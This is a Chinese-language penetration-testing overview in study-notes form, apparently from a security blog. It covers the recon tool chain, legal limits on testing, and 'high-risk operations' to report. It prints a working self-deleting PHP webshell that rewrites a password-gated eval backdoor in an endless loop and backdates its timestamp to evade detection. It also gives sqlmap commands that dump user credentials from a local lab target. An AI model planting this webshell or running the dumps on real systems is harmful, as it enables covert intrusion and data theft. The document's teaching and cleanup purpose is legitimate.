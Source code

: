 # 渗透测试：
![](https://0b4e0933.sqlsec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E6%A6%82%E8%BF%B0/imgs/image-20200722105335774.png)

第一步：端口扫描Nmap Goby Masscan

第二步：目录扫描-->比谁的字典大比谁的字典好用 dirsearch dirmap wfuzz gobuster gitub有字典

第三步：子域名探测 oneforall subfinder Layer

第四步：Ehole指纹识别  httpx存活探测(标题-状态码-wapplayer插件-Web-Server)  fofa_view

第五步：漏洞扫描awvs，xray ，手工探测
漏洞验证：msf，公司漏洞库验证，手工验证等

>前端框架：
    检测漏洞：Packer-Fuzzer(发现漏洞-自动未授权等发现)
    恢复前端源代码：SourceMap（未授权以及拼接-0SS捅钥匙泄露）


内网：Cobalt Strike Msf frp nps mimikatz ladon fscan
渗透测试流程：信息收集(打点)-发现漏洞点-利用漏洞点-Getshell(冰蝎，哥斯拉)-提权-建立隧道-权限维持-横向-喷洒-最终的域控。


# 渗透测试概述

通过渗透测试的概念中短短的一句话可以提取出下面一些关键词，下面来根据这些关键词来分别讲解一下：

## 受信任

2016 年 11 月 7 日，《中华人民共和国网络安全法》颁布以来，一切非授权的渗透测试行为都是违法的。

<http://nic.hrbeu.edu.cn/_upload/article/files/4d/a2/543a91024b739b31ebe631355019/3d713f50-e1a0-45ec-83b1-46629106262d.pdf>

哪怕是看上去比较正义的渗透测试行为实际上也都是违法的，比如攻击赌博、传销、黄色网站等

[如何评论95zz做黑产的行为？](https://www.zhihu.com/question/64638050/answer/693542808)

## 模拟黑客

模拟黑客行为并不是真正的黑客行为，所以在渗透测试中涉及到高危操作的时候都需要上报并记录，高危行为如下：

1. **上传 webshell 尤其是不死马**

`不死马.php` → `上传到server` → `server执行文件` → `server本地无限循环生成` (一句话.php)

```
<?php 
// 函数设置与客户机断开是否会终止脚本的执行。这里设置为true则忽略与用户的断开，即使与客户机断开脚本仍会执行
ignore_user_abort(true); 

// 函数设置脚本最大执行时间。这里设置为0，即没有时间方面的限制
set_time_limit(0);

// 删除文件本身，以起到隐蔽自身的作用
unlink(__FILE__);

$file = 'shell.php';
$code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){@eval($_POST[a]);} ?>';
while (1){
    file_put_contents($file,$code);

      // 以绕过“find –name '*.php' –mmin -10”命令检测最近10分钟修改或新创建的PHP文件
    system('touch -m -d "2018-12-01 09:10:12" shell.php');
    usleep(5000); // 一微秒等于百万分之一秒
}
?>
```

将这个文件上传到服务器，然后进行访问，会在该路径下一直生成一个名字为 shell.php 的文件，然后使用中国蚁剑输入/2.php?pass=pass的路径，密码为 a 就可以链接一句话，由于 pass 是 md5 加密很难被破解也可以做到隐蔽,md5 值可以随意定义。

![](https://0b4e0933.sqlsec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E6%A6%82%E8%BF%B0/imgs/image-20200721211911341.png)

* 如果允许，重启服务器是万能的。
* 其次，最好的解决方案是 kill 掉www-data用户的所有子进程：

```
$ ls -l
total 8
-rwxr-xr-x 1 root     root     26 Jan 20  2019 index.php
-rw-r--r-- 1 www-data www-data 86 Dec  1  2018 shell.php

$ ps aux | grep www-data
www-data     6  0.0  0.7 430384 14332 ?        S    13:20   0:00 apache2 -D FOREGROUND
www-data     7  4.0  0.7 430352 15036 ?        S    13:20   0:05 apache2 -D FOREGROUND
www-data     8  0.0  0.4 430328 10152 ?        S    13:20   0:00 apache2 -D FOREGROUND
www-data     9  0.0  0.4 430328 10152 ?        S    13:20   0:00 apache2 -D FOREGROUND
www-data    10  0.0  0.4 430328 10152 ?        S    13:20   0:00 apache2 -D FOREGROUND
www-data   256  0.0  0.4 430328 10152 ?        S    13:21   0:00 apache2 -D FOREGROUND
root     11003  0.0  0.0  12948   864 pts/0    S+   13:22   0:00 grep --color=auto www-data

$ ps aux | grep www-data| awk '{print $2}'
6
7
8
9
10
256
13401
13403

$ ps aux | grep www-data| awk '{print $2}'|xargs kill -9

$ ls
index.php  shell.php

$ rm shell.php

$ ls
index.php
```

1. **脱裤点到为止**

一般都使用 sqlmap 来进行脱裤，使用 --start --stop 来设置脱裤的起点和终点：

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --dump -C'id,username,password' -T 'users' -D 'security' --start=1 --stop=5
```

![](https://0b4e0933.sqlsec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E6%A6%82%E8%BF%B0/imgs/image-20200721213636280.png)

如果要证明某个表下面的数量的话，直接使用 sqlmap 的 `--count` 参数即可

```
sqlmap -u "http://127.0.0.1:8888/Less-1/?id=1" --count -T 'users' -D 'security'
```

![image-20200721213755305](https://0b4e0933.sqlsec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E6%A6%82%E8%BF%B0/imgs/image-20200721213755305.png)

## 发现隐患

渗透人员在不同的位置（比如从内网、从外网等位置）利用各种手段对业务系统进行全面深入的安全测试，以此挖掘可能存在的安全缺陷和漏洞。

